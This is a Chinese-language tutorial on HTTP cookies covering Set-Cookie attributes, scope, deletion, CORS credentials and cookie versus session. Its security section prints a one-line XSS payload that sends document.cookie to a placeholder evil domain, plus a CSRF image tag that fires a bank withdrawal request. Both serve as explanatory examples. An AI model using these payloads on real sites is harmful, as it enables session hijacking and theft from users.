 ### 简介
HTTP Cookie（也叫Web cookie或者浏览器Cookie）是服务器发送到用户浏览器并保存在浏览器上的一块数据，它会在浏览器下一次发起请求时被携带并发送到服务器上。

### 创建 Cookie

服务器使用Set-Cookie响应头部向用户代理（一般指浏览器）发送Cookie信息。一个简单的Cookie可能像这样：

```
Set-Cookie: <cookie名称>=<cookie值>
```

设置完 Cookie 后对该服务器发起的每一次新的请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头发送给服务器。

#### 会话期Cookie
会话期 Cookie 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是它仅在会话期间有效。会话期 Cookie *不需要指定过期时间（Expires）或者有效期（Max-Age）* 。需注意的是，有些浏览器提供了会话恢复的功能，这种情况下即便关闭了浏览器会话期 Cookie 也会被保存，就好像浏览器从来没有关闭一样。

#### 持久Cookie

和关闭浏览器便失效不同，持久Cookie可以指定一个特定的过期时间（Expires）或者有效期（Max-Age）。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

#### 安全和HttpOnly类型Cookie

只有在使用 SLL 和 HTTPS 协议向服务器发起请求时，才能确保 Cookie 被安全地发送到服务器。HttpOnly 标志并没有给你提供额外的加密或者安全性上的能力，当整个机器暴露在不安全的环境时，切记绝不能通过 HTTP Cookie 存储、传输机密或者敏感信息。

HTTP-only 类型的 Cookie 不能使用 Javascript 通过 `Document.cookie` 属性来访问，从而能够在一定程度上阻止域脚本攻击（XSS）。当你不需要在 JavaScript 代码中访问你的 Cookie 时，可以将该 Cookie 设置成 HttpOnly 类型。特别的，当你的 Cookie 仅仅是用于定义会话的情况下，最好给它设置一下 HttpOnly 标志。

只有当一个请求通过 SSL 或 HTTPS 创建时，包含 Secure 选项的 cookie 才能被发送至服务器。这种 Cookie 的内容具有很高的价值，如果以纯文本形式传递很有可能被篡改。事实上，机密且敏感的信息绝不应该在 Cookie 中存储或传输，因为 Cookie 的整个机制原本都是不安全的。默认情况下，在 HTTPS 链接上传输的 Cookie 都会被自动添加上 Secure 选项。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

#### Cookie的作用域

Domain 和 Path 指令定义了 Cookie 的作用域，即需要发送 Cookie 的 URL 集合。

Domain 指令规定了需要发送 Cookie 的主机名。如果没有指定，默认为当前的文档地址上的主机名（但是不包含子域名）。如果指定了 Domain，则一般包含子域名。

如果设置了 Domain=mozilla.org ，则 Cookie 包含在子域名中（如developer.mozilla.org）。不能跨域上设置一个 Cookie，因为这会产生安全问题。不合法的 Domain 选择将直接被忽略。

Path 指令表明需要发送 Cookie 的URL路径。字符%x2F (即"/")用做文件夹分隔符，子文件夹也会被匹配到。

如设置Path=/docs，则下面这些地址都将匹配到:

"/docs",
"/docs/Web/",
"/docs/Web/HTTP"

### 清理 Cookie`

```
Set-Cookie: <cookie名称>=; path=<Path>; expires=Thu, 01 Jan 1970 00:00:00 GMT
```


### 安全

#### 会话劫持和XSS
在Web应用中，Cookie 常常用来标记用户和会话授权。因此，如果窃取了 Web 应用的 Cookie，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学进行攻击和利用应用程序的漏洞进行XSS攻击。
``` javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对 Cookie 进行访问而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）
维基百科已经给了一个比较好的 CSRF 例子。在这个情况下，有一张并不真实存在的图片（可能是在不安全聊天室或论坛），它实际上是向你的银行服务器发送了提现请求：
```
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片（**本质上不存在这张图片，只是为了利用浏览器加载图片去发送请求。不是 Ajax 请求，浏览器不会因为跨域而拦截。**）的HTML页面时，如果 **你已经登录了你的银行帐号并且还有效**（而且没有其它验证步骤），你的银行里的钱可能会被自动转走。


### Cookie VS Session

Cookie 和 Session 本身没什么联系。Cookie 是放置到客户端的，Session 是放置在服务器端的。服务器端的 Session 其实就是一个 K-V 形式的键值对，Key 就是 SessionID。很多时候我们就把 SessionID 放置到 Cookie 中，利用 **浏览器下一次发起请求时会携带 Cookie 并发送到服务器上** 的便利来跟踪标识一个用户。服务器端从 Cookie 中拿到 SessionID，用 SessionID 拿到 Session 的信息。很多情况下我们会在浏览器地址栏见到类似`?jsessionid=xxxxx`的URL，这种情况就是把 SessionID 放置到 URL 中来携带，在客户端不支持 Cookie 的情况下使用。之所以我们一看到 Session 就会提到 Cookie 是因为 Cookie 携带 SessionID 十分便利罢了。


### 注意事项及常见问题

### 跨域携带 Cookie 问题

CORS 请求默认不发送 Cookie 和 HTTP 认证信息。如果要把 Cookie 发到服务器，一方面要服务器同意，指定 Access-Control-Allow-Credentials 字段
```
Access-Control-Allow-Credentials: true
```

另一方面，开发者必须在AJAX请求中打开withCredentials属性。
```
var xhr = new XMLHttpRequest();
xhr.withCredentials = true;
```

否则，即使服务器同意发送 Cookie，浏览器也不会发送。或者，服务器要求设置 Cookie，浏览器也不会处理。
但是，如果省略 withCredentials 设置，有的浏览器还是会一起发送Cookie。这时，可以显式关闭 withCredentials。
```
xhr.withCredentials = false;
```

需要注意的是，如果要发送 Cookie，Access-Control-Allow-Origin 就不能设为星号，必须指定明确的、与请求网页一致的域名。同时，Cookie依然遵循同源政策，只有用服务器域名设置的 Cookie 才会上传，其他域名的 Cookie 并不会上传，且（跨源）原网页代码中的 `document.cookie` 也无法读取服务器域名下的 Cookie。


### 参考
[【1】](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies) [【2】](http://bubkoo.com/2014/04/21/http-cookies-explained/) [【3】](http://www.ruanyifeng.com/blog/2016/04/cors.html)
